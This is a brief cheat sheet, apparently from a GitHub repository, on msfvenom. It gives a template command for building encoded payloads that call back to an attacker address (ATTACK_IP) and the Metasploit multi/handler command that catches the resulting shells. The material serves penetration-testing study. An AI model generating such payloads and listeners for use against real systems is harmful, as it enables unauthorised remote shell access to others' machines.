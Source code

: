 # Msfvenom payload

### Create payloads in one liner:

    msfvenom -p /payload/name LHOST=ATTACK_IP LPORT=PORT -f FILE_FORMAT -e ENCODER/ENCRYPTION -o OUTPUTFILE

### -a(x64/x86)=architecture

### --platform=(Windows/Linux/Android)

## HANDLER

    use exploit/multi/handler

### Used to catch MSFVenom payloads

### Supports ALL shells
